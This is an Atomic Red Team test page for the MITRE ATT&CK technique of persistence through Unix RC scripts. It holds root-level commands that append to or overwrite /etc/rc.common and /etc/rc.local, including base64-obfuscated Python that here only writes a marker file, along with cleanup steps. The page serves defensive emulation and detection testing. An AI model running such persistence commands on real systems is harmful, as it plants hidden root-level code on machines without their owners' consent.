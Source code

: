 # T1037.004 - Boot or Logon Initialization Scripts: Rc.common

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/004)

<blockquote>Adversaries may establish persistence by modifying RC scripts which are executed during a Unix-like system’s startup. These files allow system administrators to map and start custom services at startup for different run levels. RC scripts require root privileges to modify.

Adversaries can establish persistence by adding a malicious binary path or shell commands to <code>rc.local</code>, <code>rc.common</code>, and other RC scripts specific to the Unix-like distribution.(Citation: IranThreats Kittens Dec 2017)(Citation: Intezer HiddenWasp Map 2019) Upon reboot, the system executes the script's contents as root, resulting in persistence.

Adversary abuse of RC scripts is especially effective for lightweight Unix-like distributions using the root user as default, such as IoT or embedded systems.(Citation: intezer-kaiji-malware)

Several Unix-like systems have moved to Systemd and deprecated the use of RC scripts. This is now a deprecated mechanism in macOS in favor of [Launchd](https://attack.mitre.org/techniques/T1053/004). (Citation: Apple Developer Doco Archive Launchd)(Citation: Startup Items) This technique can be used on Mac OS X Panther v10.3 and earlier versions which still execute the RC scripts.(Citation: Methods of Mac Malware Persistence) To maintain backwards compatibility some systems, such as Ubuntu, will execute the RC scripts if they exist with the correct file permissions.(Citation: Ubuntu Manpage systemd rc)</blockquote>

## Atomic Tests

- [Atomic Test #1 - rc.common](#atomic-test-1---rccommon)

- [Atomic Test #2 - rc.common](#atomic-test-2---rccommon)

- [Atomic Test #3 - rc.local](#atomic-test-3---rclocal)

<br/>

## Atomic Test #1 - rc.common

Modify rc.common

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/StartupItems.html)

**Supported Platforms:** macOS

**auto_generated_guid:** 97a48daa-8bca-4bc0-b1a9-c1d163e762de

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```

<br/>
<br/>

## Atomic Test #2 - rc.common

Modify rc.common

**Supported Platforms:** Linux

**auto_generated_guid:** c33f3d80-5f04-419b-a13a-854d1cbdbf3a

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
filename='/etc/rc.common';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.common.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.common
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMuY29tbW9uID4gL3RtcC9UMTAzNy4wMDQucmMuY29tbW9uJykK'))\"" | sudo tee -a /etc/rc.common
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.common
sudo chmod +x /etc/rc.common
```

#### Cleanup Commands:

```bash
origfilename='/etc/rc.common.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.common;else sudo cp $origfilename /etc/rc.common && sudo rm $origfilename;fi
```

<br/>
<br/>

## Atomic Test #3 - rc.local

Modify rc.local

**Supported Platforms:** Linux

**auto_generated_guid:** 126f71af-e1c9-405c-94ef-26a47b16c102

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
[ "$(uname)" = 'FreeBSD' ] && alias python3=python3.9 && printf '#\!/usr/local/bin/bash' | sudo tee /etc/rc.local || printf '#!/bin/bash' | sudo tee /etc/rc.local
echo "\npython3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo='))\"" | sudo tee -a /etc/rc.local
printf 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:

```sh
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```

<br/>
